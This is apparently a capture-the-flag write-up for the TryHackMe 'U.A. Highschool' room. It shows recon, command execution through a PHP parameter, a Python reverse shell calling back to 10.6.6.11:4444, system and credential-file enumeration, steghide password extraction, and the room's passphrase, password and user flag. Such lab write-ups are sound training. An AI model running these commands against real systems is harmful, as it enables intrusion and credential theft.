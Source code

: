 # U.A. Highschool CTF

## Recon
1. nmap -sS -oN nmap_initial.txt gives us open ssh and http ports. Lets get detail on the http port 
2. nmap -A -p80 -oN nmap_http.txt school.thm we have an apache web server running lets go ahead and look at the website
3. The webiste has a few forms but non seem functional there doesn't seem to be anything interesting in the sorce code.
4. gobuster dir -u http://school.thm -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 50 reveals only /assets and /server-status
5. Wild goose chase with Japanese word lists
6. the hint says be suspicous of any unused files lets look for files; we find an index.php
7. we have found LFI on index.php

## LFI Exploration

1. http://school.thm/assets/index.php?cmd=whoami gives us d3d3LWRhdGEK
2. base 64 decode shows user is www-data
3. http://school.thm/assets/index.php?cmd=cat /etc/apache2/sites-enabled/000-default.conf reveals some info see apache_conf.txt
4. we are able to reverse shell http://school.thm/assets/index.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.6.11",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'


## Reverse Shell

1. stabalize with: python3 -c 'import pty; pty.spawn("/bin/bash")'
2. make terminal responsive export TERM=xterm
3. improve input handling: stty raw -echo; fg
4. www-data@myheroacademia:/var/www/html/assets$ whoami && hostname
www-data
myheroacademia
5. www-data@myheroacademia:/var/www/html/assets$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
6. www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
7. www-data@myheroacademia:/var/www/html/assets$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  4.7G  4.7G  51% /
udev                               436M     0  436M   0% /dev
tmpfs                              481M     0  481M   0% /dev/shm
tmpfs                               97M  944K   96M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              481M     0  481M   0% /sys/fs/cgroup
/dev/loop0                          64M   64M     0 100% /snap/core20/1828
/dev/loop1                          50M   50M     0 100% /snap/snapd/18357
/dev/loop2                          92M   92M     0 100% /snap/lxd/24061
/dev/xvda2                         1.7G  108M  1.5G   7% /boot
8. /usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
9. www-data@myheroacademia:/var/www/html/assets$ find / -writable -type f 2>/dev/null
cat /etc/passwd | grep bash/var/www/html/assets/images/yuei.jpg
/var/www/html/assets/images/oneforall.jpg
/var/www/html/assets/index.php
/var/www/html/index.html
/var/www/html/about.html
/var/www/html/admissions.html
/var/www/html/contact.html
/var/www/html/courses.html
/var/www/Hidden_Content/passphrase.txt
10. www-data@myheroacademia:/var/www/html/assets$ cat /var/www/Hidden_Content/passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg== : AllmightForEver!!!
11. www-data@myheroacademia:/var/www/html/assets$ cat /etc/passwd | cut -d: -f1
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-network
systemd-resolve
systemd-timesync
messagebus
syslog
_apt
tss
uuidd
tcpdump
landscape
pollinate
fwupd-refresh
usbmux
sshd
systemd-coredump
deku

lxd

11. su - deku fail
12. ssh deku@school.thm fail
13. www-data@myheroacademia:/var/www/html/assets$ cat /etc/shadow | grep deku
cat: /etc/shadow: Permission denied
14. www-data@myheroacademia:/var/www/html/assets$ netstat -tulnp
ps aux | grep deku(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.5.150:68          0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:55490           0.0.0.0:*                           -                   
www-data@myheroacademia:/var/www/html/assets$ 
15. www-data@myheroacademia:/var/www/html/assets$ ls -la /home/deku/
total 36
drwxr-xr-x 5 deku deku 4096 Jul 10  2023 .
drwxr-xr-x 3 root root 4096 Jul  9  2023 ..
lrwxrwxrwx 1 root root    9 Jul  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 deku deku  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 deku deku 3771 Feb 25  2020 .bashrc
drwx------ 2 deku deku 4096 Jul  9  2023 .cache
drwxrwxr-x 3 deku deku 4096 Jul  9  2023 .local
-rw-r--r-- 1 deku deku  807 Feb 25  2020 .profile
drwx------ 2 deku deku 4096 Jul  9  2023 .ssh
-rw-r--r-- 1 deku deku    0 Jul  9  2023 .sudo_as_admin_successful
-r-------- 1 deku deku   33 Jul 10  2023 user.txt
16 we found the flag but:
www-data@myheroacademia:/var/www/html/assets$ cat /home/deku/user.txt
cat: /home/deku/user.txt: Permission denied
17. ww-data@myheroacademia:/var/www/html/assets$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
18. looking back at the hint unused files : 
www-data@myheroacademia:/var/www/html/assets$ ls -la images/
total 336
drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
oneforall.jpg isn't used on the site

## Image Examination

1. download image wget http://school.thm/assets/images/oneforall.jpg
2. exiftool oneforall.jpg > exif.txt it appears to be a .png file not .jpg
3. pngcheck -v oneforall.png
File: oneforall.png (98264 bytes)
  invalid chunk name "" (01 00 00 01)
ERRORS DETECTED in oneforall.png
4. file oneforall.png 
oneforall.png: data
5. hexedit to switch to jpg : 
file oneforall.jpg
oneforall.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1140x570, components 3
6. steghide extract -sf oneforall.jpg
Enter passphrase: AllmightForEver!!!
wrote extracted data to "creds.txt"
7. password found: One?For?All_!!one1/A

## Get User Flag

1. ssh deku@school.thm with the new password, success!
2. deku@myheroacademia:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
3. deku@myheroacademia:~$ find / -name "user.txt" 2>/dev/null
/home/deku/user.txt
4. deku@myheroacademia:~$ cat user.txt 
THM{W3lC0m3_D3kU_1A_0n3f0rAll??}

